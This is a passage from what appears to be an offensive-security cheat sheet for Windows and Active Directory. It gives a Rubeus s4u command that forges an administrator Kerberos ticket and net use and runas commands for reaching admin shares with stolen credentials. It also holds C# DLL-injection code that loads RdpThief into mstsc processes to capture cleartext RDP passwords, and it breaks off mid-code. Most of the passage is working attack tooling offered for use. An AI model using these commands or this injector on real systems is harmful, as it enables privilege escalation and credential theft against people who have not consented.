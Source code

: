 Create ticket:

```text
.\Rubeus.exe s4u /user:<new-computername> /rc4:... /impersonateuser:administrator /msdsspn:CIFS/<victim-computername> /ptt
```

### Net Use

```bash
runas /user:administrator /savecred "cmd.exe /k whoami"
net use z: \\<ip>\c$ /user:<username> <password>
```

### Steal RPD Creds

[RDPThief ](https://github.com/0x09AL/RdpThief)allows to get clear text credentials from newly established RDP connections \(via hooking\). It comes in form of a DLL and needs to be injected into  the mscrt.exe process:

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading;

namespace RDPThief
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            String dllName = "RdpThief.dll";
            while (true) { 
                Process[] mstscProc = Process.GetProcessesByName("mstsc");
                if (mstscProc.Length > 0) {
                    for (int i = 0; i < mstscProc.Length; i++) {
                        int pid = mstscProc[i].Id;
                        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
                        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                        IntPtr outSize;
                        Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
                        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
                        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
                    }
                }
```